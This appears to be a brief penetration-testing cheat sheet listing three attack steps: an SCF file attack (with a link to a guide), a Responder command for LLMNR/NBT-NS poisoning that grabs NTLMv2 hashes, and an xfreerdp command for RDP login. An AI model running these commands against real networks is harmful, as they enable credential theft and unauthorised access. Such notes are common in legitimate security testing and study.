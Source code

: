 ## SCF attack: malicious file that trigger multicats request for another computers. Responder needed.
**Attack guide**: [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/].
## LLMNR & NBT-NS POISONING AND CREDENTIAL ACCESS USING RESPONDER
**Run responder/ NTLMv2 hash grabbing**: responder -I [interface] -wF -v
## CONNECT TO RDP
xfreerdp /u:user /p:password321 /cert:ignore /v:MACHINE_IP
